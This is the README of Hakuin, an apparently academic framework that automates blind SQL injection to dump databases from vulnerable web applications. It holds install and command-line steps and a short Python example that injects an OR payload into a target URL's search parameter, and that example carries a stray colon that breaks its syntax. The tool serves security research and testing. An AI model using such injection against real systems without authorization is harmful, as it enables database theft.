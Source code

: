 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstracts away the extraction logic and allows users to easily and efficiently dumps databases from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, statistical modeling, parallelism, and much more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).



## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```



## Command Line Tool
Hakuin ships with an intuitive tool that offers most of Hakuin's features directly from the command line:
```
hk -h
```



## Custom Scripting
Sometimes, BSQLI vulnerabilities are too tricky to exploit from the command line and require custom scripting. This is where Hakuin shines, allowing you to customize absolutely everything - the injection logic, the inference logic, and even the queries.

Here is a minimal example:
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        url = f'http://target.com/users?search=XXX" OR ({payload})--'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Make sure to go through our [tutorial](https://github.com/pruzko/hakuin/blob/main/publications/TUTORIAL.md).



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
